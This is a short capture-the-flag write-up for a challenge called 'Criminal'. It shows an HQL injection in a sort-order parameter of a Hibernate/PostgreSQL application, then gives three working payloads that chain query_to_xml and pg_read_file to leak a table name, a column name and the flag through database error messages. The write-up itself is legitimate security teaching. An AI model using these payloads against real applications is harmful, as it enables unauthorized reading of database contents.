 # Criminal

## HQL injection

Try to send request

`order='`

then cause error:

`message Request processing failed; nested exception is java.lang.IllegalArgumentException: org.hibernate.QueryException: expecting ''', found '<EOF>' [SELECT c from solutions.bloodsuckers.models.Criminal c WHERE (c.name like :pName or :pNameLength = 0) and (c.age = :pAge or :pAge = 0) and (c.crime like :pCrime or :pCrimeLength = 0) order by ']`

injectable


## payload

request: 

`order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select table_name from information_schema.columns limit 1)))',true,false,'')),1)`

result: (table name)

`ERROR: could not stat file "flag": No such file or directory`


request:

`order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select column_name from information_schema.columns limit 1)))',true,false,'')),1)`

result: (column name)

`ERROR: could not stat file "secret": No such file or directory`


request:

`order=array_upper(xpath('row',query_to_xml('select (pg_read_file((select secret from flag)))',true,false,'')),1)`

result:

`ERROR: could not stat file "CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}": No such file or directory`

`CTF-BR{bl00dsuck3rs_HQL1njection_pwn2win}`



## Reference

https://www.slideshare.net/0ang3el/new-methods-for-exploiting-orm-injections-in-java-applications
